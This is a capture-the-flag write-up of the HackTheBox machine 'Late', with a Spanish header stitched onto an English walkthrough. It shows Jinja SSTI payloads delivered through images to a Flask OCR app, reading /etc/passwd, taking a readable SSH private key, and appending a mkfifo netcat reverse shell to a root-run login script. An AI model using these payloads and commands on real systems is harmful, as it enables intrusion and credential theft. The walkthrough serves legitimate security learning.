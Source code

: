 ```yaml
---
layout: post
author: Sergio Salgado
---
```

# [](#header-1)Late HtB

## [](#header-2)Indice
Esta maquina es una de las sencillas en HtB.

- <a href="#desarrollo">Desarrollo</a>
Around a decade or so ago Chris Tarrant used to be the host of a show called Who Wants To Be a Millionaire? shown on ITV in the UK. This show has become a franchise sold worldwide, so wherever you are reading this, you’ve probably seen an incarnation on your local TV station. If you haven’t seen it, the premise is (or was) to answer 15 questions in a row to win – surprise, surprise – a million pounds. The questions supposedly ascended in apparent difficulty but here’s the thing – can general knowledge ever truly be considered as universally easy or hard? Tarrant had a saying on the show “The question is only easy if you know the answer”. That’s a throwaway phrase, but also very much a truism. The box we’re going to look at here is listed as an ‘easy’ box – but whilst the steps to pwnage may be straightforward, SSTI (Server Side Template Injection) is not something that I would suggest is that widely known…

Enough with the history lesson. Kicking us off we’re going to go for an nmap to enumerate those juicy open ports.

A small attack surface for an easy box is usually a good thing. Port 80 is clearly the route to a foothold, so we’ll take a look using the browser right away.
This is without doubt the correct path we’re on. Tool number 1 is unleashed: burpsuite. I want to see what the requests look like – and I want to force the application to produce some errors. By uploading (or trying to upload) a variety of different files and filetypes I was able to determine the following:

    Code injection, SSRF and the like were not going to work
    The application needed a valid image uploaded to it or it would error out

Not great. Theres a clue in the webpage text though. A reference to Flask. Google-foo time.

I come across this article: https://medium.com/swlh/hacking-flask-applications-939eae4bffed and I learn a bit more about it. I knew of Flask but I didn’t really know anything about Flask. The nutshell of ‘What is Flask’ is that it’s written in Python and is a “micro” web-framework. That is to say it relies on no other libraries. It’s also a wrapper for some other technologies – including a templating language that I had heard of before called Jinja.

More Googling led me to understand that Flask is pretty brittle in security terms. There’s descriptions of lots of possible RCE’s – including a previous HTB write-up (that in of itself is no use to me). What I did learn is a new key phrase: SSTI.

This Flask based web-app is converting text in photos to actual text in a file. An OCR if you will. It seems more than likely that we’re going to have to upload an image which contains text content that the system will execute for us. My starting point for how to attack this is aided massively by this masterpiece on HackTricks: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

I use the first example from that page, typing the below into a text editor, taking a screenshot of that content and then submit the image to the OCR web app:

```sc
{{7*7}}
${7*7}
<%=7*7%> 
${{7*7}} 
#{7*7}
```

What we get back in results.txt is not a simple conversion of the text though:

 Bits missing; Maths questions solved… We’re on to something. This app is vulnerable to SSTI.

The next step is getting something useful back from the server rather than answers to basic maths questions. Deeper into the HackTricks article there’s exactly what we need. I submit a request to retrieve /etc/passwd using an image containing the following command:

{{ get_flashed_messages.globals.builtins.open("/etc/passwd").read() }}

and here is the reward in the returned results.txt:


There was a temptation to see if I could use this web app to pop a shell, but first I used it to grab the user flag and then wondered maybe I could skip all the mess of a reverse shell and just get an ssh session. Sure enough, there was already a public key entry in /home/svc_acc/.ssh/authorized_hosts and the private key was readable from /home/svc_acc/.ssh/id_rsa

Creating the key from the crypto material I’d pilfered on my attacker machine, I was able to ssh directly to the box. Far easier than any faffing around with trying to get code execution. I’m sure it might have been possible, but I didn’t try.

Time for some rooting where I hoped that sudo -l would give me a super-quick win. It did not oblige though, and we next turn to LinPeas. Because thats what you do. Enumerate, enumerate, enumerate.

There’s something pretty obviously dodgy in the output.

What is this file? /usr/local/sbin/ssh-alert.sh 

I’d wager this is probably running every time someone logs in. We can use pspy to have a look at what might be going on under the covers. This is an essential for your toolkit. Don’t leave home without it. You can find the latest version here: https://github.com/DominicBreuker/pspy – and we’re going use it to watch what happens when I log in via ssh a second time.

Well now. Looky what we have here…

UID=0. Therefore we know this script is being executed by root and it gets executed every time we ssh-in. Better news, we have – or appear to have – write access. Time to edit the file you say? Hold up there partner, what’s this?

There’s only one culprit for this kind of shenanigans: File attributes. We can use lsattr to find out more.

They ‘a’ means we can append to the file and that’s it. The easiest way to append to a file is using cat to push content from a file we create into it using the operator >>. That’s exactly what we do. (You can use echo, but why make life harder when we’re fiddling with special characters).

I initially want the root flag without any hassle so I append cat /root/root.txt >> /home/svc_acc/flag.txt to the file. A login via ssh triggers the script, and sure enough the flag is sitting in my home directory. Points in the bag.

We’re not settling for that though. Frequent flyers to this channel will know I demand full root shell access even if theres no extra credit!

An attempt to get a reverse shell with nc did not work. Initially I appended the appropriate line to script and found it didn’t do anything. So I just tried a plain reverse shell from the user account. It became apparent very quickly what was going on. The sneaky box designer had included a version of netcat that did not allow for the usual -e option to specify the shell. Thats just not playing fair.

Thankfully we can get around this minor bump. A quick check of the reverse shell cheat-sheet indicates we can do the following:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 4545 >/tmp/f

We append this to the ssh-alert.sh file, prepare to catch the reverse as per usual back at base camp with nc -nlvp 4545, and then start another ssh session to kick the script into life. Sure enough, we’re in – and late.htb is fully pwned.

So how hard was this? Getting root may have been very simple after getting a foothold. The foothold itself though? Well that required a lot more digging.

What have we learned? For one, SSTI is a thing and Flask is a security nightmare. But perhaps more importantly…

It’s only easy if you know the answer.

